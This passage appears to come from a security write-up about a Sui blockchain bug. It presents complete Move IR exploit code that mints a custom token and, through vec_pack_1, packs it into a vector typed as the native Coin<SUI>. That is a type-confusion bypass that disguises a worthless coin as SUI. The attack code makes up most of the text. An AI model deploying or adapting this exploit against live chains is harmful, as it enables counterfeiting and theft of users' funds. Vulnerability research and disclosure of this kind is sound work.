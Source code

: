 Here I’m minting the `coin` and returning along with the `treasuryCap` and `CoinMetadata`

In **mvir** exploit i’m directly packing the minted coin(`Coin<MYCOIN>`) in `Coin<SUI>` type vector using `vec_pack_1`.

**Final Code :**

```rust
//# publish
module 0x0.mycoin {
        import 0x2.object;
        import 0x2.tx_context;
        import 0x2.transfer;
        import 0x2.sui;
        import 0x2.coin;
				import 0x2.url;
        import 0x1.vector;
        import 0x1.option;


		struct MYCOIN has drop { dummy : bool}

		struct Wrapper has key {
            id: object.UID,
            coins: vector<coin.Coin<sui.SUI>>,
        }

		init(_otw: Self.MYCOIN,ctx: &mut tx_context.TxContext){
            let v1: vector<coin.Coin<sui.SUI>>;
            let wrap: Self.Wrapper;
			let cap: coin.TreasuryCap<Self.MYCOIN>;
			let mutcap: &mut coin.TreasuryCap<Self.MYCOIN>;
			let metadata : coin.CoinMetadata<Self.MYCOIN>;
			let vec : vector<u8>;
			let decimals: u8;
			let symbol: vector<u8>;
			let name: vector<u8>;
			let description: vector<u8>;
			let icon_url: option.Option<url.Url>;
			let c : coin.Coin<Self.MYCOIN>;
         label b0:
			decimals = 2u8;
			symbol = h"bac1ac";
			name = h"bac1ac";
			description = h"bac1ac";
			icon_url = option.none<url.Url>();


			cap, metadata, c = coin.create_currency_v2<Self.MYCOIN>(move(_otw),move(decimals),move(symbol),move(name),move(description),move(icon_url),copy(ctx));

			transfer.public_freeze_object<coin.CoinMetadata<Self.MYCOIN>>(move(metadata));

				transfer.public_transfer<coin.TreasuryCap<Self.MYCOIN>>(move(cap), tx_context.sender(freeze(copy(ctx))));
						//packing the Coin<MYCOIN> to Coin<SUI>.
            v1 = vec_pack_1<coin.Coin<sui.SUI>>(move(c));
            wrap = Wrapper{ id : object.new(copy(ctx)) ,coins: move(v1)};
            transfer.transfer<Self.Wrapper>(move(wrap),tx_context.sender(freeze(copy(ctx))));
            return;
        }

    }
```
